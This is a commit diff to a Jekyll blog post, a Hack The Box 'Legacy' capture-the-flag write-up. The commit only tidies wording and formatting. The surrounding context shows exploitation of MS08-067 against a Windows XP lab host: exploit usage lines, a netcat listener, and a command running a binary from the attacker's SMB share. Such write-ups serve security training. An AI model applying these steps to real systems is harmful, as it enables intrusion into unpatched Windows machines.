

Before and after one commit to ColdFusionX/ColdFusionX.github.io, a Jekyll site: the page built from _posts/2020-09-01-LegacyHTB.md, in a window 1280 px wide and 1400 px high, scrolled down 4670 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Updated Legacy Writeup

````diff
--- a/_posts/2020-09-01-LegacyHTB.md
+++ b/_posts/2020-09-01-LegacyHTB.md
@@ -108,7 +108,7 @@ Host script results:
 Nmap done: 1 IP address (1 host up) scanned in 9.47 seconds
 ```
 
-We discovered the host is vulnerable to notorious `MS08`-67 (exploited widely by Conficker worm)` and `MS17-010 (by Shadow Brokers)` SMB exploits.
+We discovered the host is vulnerable to notorious SMB exploits `MS08-67 (exploited widely by Conficker worm)` and `MS17-010 (by Shadow Brokers)`.
 
 We'll exploit both vulnerabilities **MS08-67** & **MS17-010** manually sticking to OSCP pattern using publicly available exploit scripts.
 
@@ -165,14 +165,14 @@ We can replace the default shellcode given in the script with above one generate
 Looking at the usage of this exploit on line 228 we can see the exploit requires us to know the OS version and Language pack:
 
 ```console
-          print '\nUsage: %s <target ip> <os #> <Port #>\n' % sys.argv[0]
-          print 'Example: MS08_067_2018.py 192.168.1.1 1 445 -- for Windows XP SP0/SP1 Universal, port 445'
-          print 'Example: MS08_067_2018.py 192.168.1.1 2 139 -- for Windows 2000 Universal, port 139 (445 could also be used)'
-          print 'Example: MS08_067_2018.py 192.168.1.1 3 445 -- for Windows 2003 SP0 Universal'
-          print 'Example: MS08_067_2018.py 192.168.1.1 4 445 -- for Windows 2003 SP1 English'
-          print 'Example: MS08_067_2018.py 192.168.1.1 5 445 -- for Windows XP SP3 French (NX)'
-          print 'Example: MS08_067_2018.py 192.168.1.1 6 445 -- for Windows XP SP3 English (NX)'
-          print 'Example: MS08_067_2018.py 192.168.1.1 7 445 -- for Windows XP SP3 English (AlwaysOn NX)'
+      print '\nUsage: %s <target ip> <os #> <Port #>\n' % sys.argv[0]
+      print 'Example: MS08_067_2018.py 192.168.1.1 1 445 -- for Windows XP SP0/SP1 Universal, port 445'
+      print 'Example: MS08_067_2018.py 192.168.1.1 2 139 -- for Windows 2000 Universal, port 139 (445 could also be used)'
+      print 'Example: MS08_067_2018.py 192.168.1.1 3 445 -- for Windows 2003 SP0 Universal'
+      print 'Example: MS08_067_2018.py 192.168.1.1 4 445 -- for Windows 2003 SP1 English'
+      print 'Example: MS08_067_2018.py 192.168.1.1 5 445 -- for Windows XP SP3 French (NX)'
+      print 'Example: MS08_067_2018.py 192.168.1.1 6 445 -- for Windows XP SP3 English (NX)'
+      print 'Example: MS08_067_2018.py 192.168.1.1 7 445 -- for Windows XP SP3 English (AlwaysOn NX)'
 ```
 Based on our Nmap results we know the host is running Windows XP and taking a wild guess we can try the exploit with option 6 for `Windows XP SP3 English (NX)`
 
@@ -180,7 +180,7 @@ Based on our Nmap results we know the host is running Windows XP and taking a wi
 
 Lets start the `nc` listener on port 443 and execute the exploit:
 
-```shell
+```terminal
 cfx:  ~/Documents/htb/legacy
 → /usr/bin/python2 /root/Documents/htb/legacy/ms08-067.py 10.10.10.4 6 445
 #######################################################################
@@ -263,7 +263,7 @@ Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation
 [*] :::00::4141414141414141
 ```
 
-#### Executing `Whomai.exe` binary on target machine:
+#### Executing `whomai.exe` binary on target machine:
 
 ```shell
 C:\WINDOWS\system32>\\10.10.14.14\cfx\whoami.exe
````
Also changed, not shown: other parts of _posts/2020-09-01-LegacyHTB.md (+10 -9 lines).
